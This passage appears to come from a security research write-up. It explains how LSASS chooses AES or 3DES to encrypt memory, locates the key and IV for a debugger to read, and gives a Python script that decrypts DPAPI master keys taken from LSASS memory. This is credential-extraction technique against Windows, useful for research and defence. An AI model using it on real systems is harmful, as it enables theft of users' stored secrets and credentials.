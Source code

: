 ```cpp
      // if it is, use AES instead of 3DES             
      if ( (cbInput & 7) != 0 )                                                     
      {
        // set the value of the key handle
        // to the AES key
        keyHandle = hAesKey;
        // default IV size for AES                     
        ivSize = 16;                            
      }
      if ( operation )
      {
        // if operation == 1 : perform encryption
        // else              : perform decryption
        if ( operation == 1 )                   
          BCryptEncrypt(keyHandle, pbOutput, cbInput, 0i64, ivBuffer, ivSize, pbOutput, cbInput, &resultSize, 0);
      }
      else
      {
        BCryptDecrypt(keyHandle, pbOutput, cbInput, 0i64, ivBuffer, ivSize, pbOutput, cbInput, &resultSize, 0);
      }
    }
  }
}
```

This is a really valuable snippet of code: not only it shows how LSASS decides whether to use 3DES or AES, but it also gives us a direct reference to the `InitializationVector` that we can now read from memory by using a debugger (_light-gray highlighted text_)

The same process can be repeated for the 3DES key which is referenced in the `LsaEncryptMemory`.
**Now we have everything we need to decrypt the DPAPI master keys!**

It's possible to write a console application that gets a handle to the LSASS process, enumerates the base addresses of the `lsasrv.dll` and `dpapisrv.dll` libraries and extracts the needed values from memory to decrypt the key, but in this case I went with something simpler and wrote the following script: its functionality is pretty basic as it just uses the Python `Crypto` module to AES-CFB decrypt the encrypted key based on the IV and AES key values supplied by the user.
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import binascii

def decryptMasterKey(encrypted_master_key, aes_key, iv):
    cipher = AES.new(aes_key, AES.MODE_CFB, iv=iv)
    decrypted_master_key = cipher.decrypt(encrypted_master_key)
    
    return decrypted_master_key

if __name__ == "__main__":
    # replace these with the actual encrypted master key,
    # AES key, and IV found in memory 
    encrypted_master_key_hex = "<MASTER_KEY_HEX>"
    aes_key_hex = "<AES_KEY_HEX>"
    iv_hex = "<IV_HEX>"
    
    encrypted_master_key = binascii.unhexlify(encrypted_master_key_hex)
    aes_key = binascii.unhexlify(aes_key_hex)
    iv = binascii.unhexlify(iv_hex)
    
    decrypted_master_key = decryptMasterKey(encrypted_master_key, aes_key, iv)
    print("[~] Master Key:", binascii.hexlify(decrypted_master_key).decode())
```

